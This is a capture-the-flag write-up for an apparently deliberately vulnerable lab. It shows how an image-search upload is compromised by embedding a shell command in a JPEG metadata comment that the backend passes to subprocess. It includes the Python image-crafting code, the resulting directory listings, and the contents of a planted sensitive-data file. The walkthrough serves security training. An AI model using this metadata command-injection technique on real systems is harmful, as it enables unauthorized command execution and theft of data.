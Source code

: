 # Objectives

Compromise the product search functionality using the file upload option to get the sensitive information file.

# Solutions

Firstly, let's see what happens when we upload a picture. We can see the page is loading and generating similar products. if we try to look at the requests that were made, we can see this:

![image](https://github.com/user-attachments/assets/8541ad33-0f6f-4c8a-a9d7-a8e1fd0862ba)

As you can see, we have one error. When we go look at it we see the following message:

```
"Error preprocessing images: An error occurred while trying to preprocess the images. Please try again later.\n For more details, visit our GitHub repository: https://github.com/orcasecurity-research/image-preprocessing-ai-goat"
```

Well we know we need to compromise a functionality in the image search process, and we just got a link to a github with some of the code, so let's go check it out!

The given library is quite small, and the obvious vulnerability pops right up - someone decided to read the metadata of the image, and execute it via subprocess.

![image](https://github.com/user-attachments/assets/f77b75b0-6c7a-484a-bcab-b945e90384c5)

so it seems like all we need to do is to insert there the command we want to be preformed. 

we use PIL to generate an image and insert a command into its metadata - 'ls -l /home/ec2-user' :

```
from PIL import Image, JpegImagePlugin

image = Image.new('RGB', (100, 100), color=(73, 109, 137))

metadata_comment = 'ls -l /home/ec2-user'

image.save('vulnerable_image.jpeg', "JPEG", quality=95, comment=metadata_comment)
```

then when uploading to the website, we get an error for analyze-photo, but in the response we get the output of the command we sent. 

the output we got is - 

```
total 120
-rw-r--r-- 1 ec2-user ec2-user 15221 Jul 30 12:23 app.py
-rw-r--r-- 1 ec2-user ec2-user  2745 Jul 30 12:23 categories.json
-rw-r--r-- 1 ec2-user ec2-user  8987 Jul 30 12:23 migrate_data.py
-rw-r--r-- 1 ec2-user ec2-user  8658 Jul 30 12:23 models.py
-rw-r--r-- 1 ec2-user ec2-user 61877 Jul 30 12:23 products.json
drwxr-xr-x 2 root     root        84 Jul 30 12:27  __pycache__
-rw-r--r-- 1 ec2-user ec2-user   102 Jul 30 12:23 requirements.txt
-rw-r--r-- 1 ec2-user ec2-user    89 Jul 30 12:23 user_data.json
-rw-r--r-- 1 ec2-user ec2-user   868 Jul 30 12:23 vulnerable_image_processor.py
```
We know we are looking for some sensitive information, so we'll try at the user's home folder now and get: 

```
total 8
drwxr-xr-x 3 root root  206 Jul 30 12:27 backend
-rw-r--r-- 1 root root   73 Jul 30 12:26 sensitive_data.txt
-rwxr-xr-x 1 root root 1323 Jul 30 12:23 setup.sh
```
and we have here a file named sensitive_data.txt! lets just read its contents: 

```
"{user_recommendations_dataset: sagemaker-recommendation-bucket-q37ltzqo}"
```
And that's it - we've succesfully finished the first challenge.
